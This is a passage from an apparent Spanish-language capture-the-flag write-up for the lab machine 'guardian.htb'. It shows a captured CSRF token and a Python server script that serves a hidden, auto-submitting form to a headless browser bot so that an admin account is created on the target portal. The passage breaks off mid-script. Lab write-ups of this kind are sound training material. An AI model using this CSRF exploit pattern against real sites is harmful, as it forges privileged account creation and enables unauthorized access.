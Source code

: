 ```html
<input type="hidden" name="csrf_token" value="058430bcfe9dbf937a852e52cab448aa">
```

Vemos que hemos encontrado un `TOKEN` posiblemente valido, vamos a montarnos un script de `python3` para poner un servidor a la escucha y realizar esa redireccion para que cree un usuario (`CSRF`).

> server.py

```python
#!/usr/bin/env python3
from http.server import HTTPServer, BaseHTTPRequestHandler
import random
import string

# CONFIGURACIÓN
CSRF_TOKEN = "058430bcfe9dbf937a852e52cab448aa"  # Tu token
YOUR_IP = "<IP>"

class AutoSubmitSSRFHandler(BaseHTTPRequestHandler):
    
    def do_GET(self):
        client_ip = self.client_address[0]
        print(f"\n[+] Headless Chrome accedió desde: {client_ip}")
        print(f"[+] Path: {self.path}")
        
        # Generar credenciales únicas para cada visita
        random_suffix = ''.join(random.choices(string.ascii_lowercase + string.digits, k=6))
        username = f"admin{random_suffix}"
        password = f"Pass{random_suffix}!"
        
        # HTML que auto-envía el formulario con nuestro token CSRF
        html = f'''
<!DOCTYPE html>
<html>
<head>
    <title>Security Portal - Loading</title>
</head>
<body>
    <h2>Security Portal - Initializing...</h2>
    <p>Please wait while we configure your admin access...</p>
    
    <!-- Formulario oculto que se auto-envía -->
    <form id="adminForm" action="http://portal.guardian.htb/admin/createuser.php" method="POST">
        <input type="hidden" name="username" value="{username}">
        <input type="hidden" name="password" value="{password}">
        <input type="hidden" name="full_name" value="Auto Admin {random_suffix}">
        <input type="hidden" name="email" value="{username}@guardian.htb">
        <input type="hidden" name="dob" value="1990-01-01">
        <input type="hidden" name="address" value="Auto Created">
        <input type="hidden" name="user_role" value="admin">
        <input type="hidden" name="csrf_token" value="{CSRF_TOKEN}">
    </form>
    
    <script>
        console.log("Auto-creating admin user: {username}");
        
        // Enviar formulario automáticamente
        setTimeout(function() {{
            document.getElementById('adminForm').submit();
            console.log("Form submitted for user: {username}");
        }}, 100);
        
        // Redirección de respaldo por si falla el formulario
        setTimeout(function() {{
```
